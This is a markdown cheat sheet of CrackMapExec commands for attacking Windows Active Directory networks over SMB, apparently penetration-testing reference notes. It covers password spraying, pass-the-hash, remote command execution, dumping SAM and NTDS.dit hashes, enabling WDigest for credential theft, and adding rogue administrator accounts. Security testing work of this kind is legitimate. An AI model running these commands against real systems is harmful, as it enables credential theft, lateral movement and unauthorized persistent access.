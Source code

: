 ```yaml
---
legal-banner: true
---
```


### **CRACKMAPEXEC (CME)**

CrackMapExec (CME) is an open-source post-exploitation tool that helps penetration testers to perform various network-level attacks and enumeration tasks. It is particularly useful for managing large Active Directory (AD) networks.

### **KEY FUNCTIONALITIES**

1. Enumerating Users and Groups
	`Lists users, groups, and other AD objects`
2. Password Spraying
	`Tests a single password against multiple user accounts`
3. Command Execution
	`Executes commands remotely on target systems`
4. Dumping Hashes
	`Extracts password hashes from remote systems`
5. Accessing Shares	
	`Lists and accesses SMB shares on remote systems`

### **TARGET FORMATS**

1. Single IP Address:
   	`crackmapexec smb [IP-ADDRESS-1] [IP-ADDRESS-2]`

2. IP range
   `crackmapexec smb [IP-ADDRESS]-28 [IP-ADDRESS]-67`

3. CIDR notation
   `crackmapexec smb [IP-ADDRESS]/24`

4. Targets from file
   `crackmapexec smb targets.txt`

### **CONNECT TO TARGET USING LOCAL ACCOUNT**

1. Connect with local account
   `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth`

2. Using Null Session:
   `crackmapexec smb [IP-ADDRESS] -u "" -p ""`

### **PASS THE HASH AGAINST A SUBNET**

1. Pass the hash with local auth
   `crackmapexec smb [IP_ADDRESS]/24 -u [USERNAME] -H '[LMHASH:NTHASH]' --local-auth`

2. Standard Pass the Hash
   `crackmapexec smb [IP-ADDRESS]/24 -u [USERNAME] -H '[NTHASH]'`

### **BRUTEFORCING AND PASSWORD SPRAYING**

1. Single password
   `crackmapexec smb [IP-ADDRESS]/24 -u "[USERNAME]" -p "[PASSWORD]"`

2. Multiple passwords
   `crackmapexec smb [IP-ADDRESS]/24 -u "[USERNAME]" -p "[PASSWORD1]" "[PASSWORD2]"`

3. Multiple users
    `crackmapexec smb [IP-ADDRESS]/24 -u "[USERNAME1]" "[USERNAME2]" -p "[PASSWORD]"`

4. Users and passwords from files
    `crackmapexec smb [IP-ADDRESS]/24 -u [USER_FILE] -p [PASS_FILE]`

5. Users from file, hashes from file
    `crackmapexec smb [IP-ADDRESS]/24 -u [USER_FILE] -H [NTLM_HASH_FILE]`

### **USERS ENUMERATION**

1. Enumerate users
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --users`

2. Perform RID bruteforce to get users
   `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --rid-brute`

3. Enumerate domain groups
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --groups`

4. Enumerate local users
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-users`

### **HOSTS ENUMERATION**

1. Generate a list of relayable hosts
    `crackmapexec smb [IP-ADDRESS]/24 --gen-relay-list output.txt`

2. Enumerate available shares
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --shares`

3. Get the active sessions
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --sessions`

4. Check logged in users
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --lusers`

5. Get the password policy
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --pass-pol`

### **COMMAND EXECUTION METHODS**

1. Execute command through cmd.exe
    `crackmapexec smb [IP_ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'whoami'`

2. Force the smbexec method
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'net user Administrator /domain' --exec-method smbexec`

3. Execute commands through PowerShell
    `crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p '[PASSWORD]' -X 'whoami'`

### **GETTING CREDENTIALS**

1. Dump local SAM hashes
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --sam`

2. Enable WDigest to get credentials from LSA memory
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --wdigest enable`

3. Disable WDigest
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --wdigest disable`

4. Query user sessions
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'quser'`

5. Force logoff
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' -x 'logoff [SESSIONID]'`

6. Dump the NTDS.dit from DC using secretsdump.py
    `crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p '[PASSWORD]' --ntds`

7. Use Volume Shadow copy Service to dump NTDS.dit
    `crackmapexec smb [IP-ADDRESS] -u [USERNAME] -p '[PASSWORD]' --ntds vss`

8. Dump the NTDS.dit password history
    `crackmapexec smb [IP-ADDRESS]/24 -u [USERNAME] -p '[PASSWORD]' --ntds-history`

### **ADDITIONAL FEATURES**

1. Upload a file to a remote share
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --upload local_file.txt \\remote\share`

2. Download a file from a remote share
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth --download \\remote\share\remote_file.txt local_path`

3. Add a new user
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth -x "net user [NEW_USER] [new_pass] /add"`

4. Add a user to Admins group
    `crackmapexec smb [IP-ADDRESS] -u '[USERNAME]' -p '[PASSWORD]' --local-auth -x "net localgroup administrators [NEW_USER] /add"`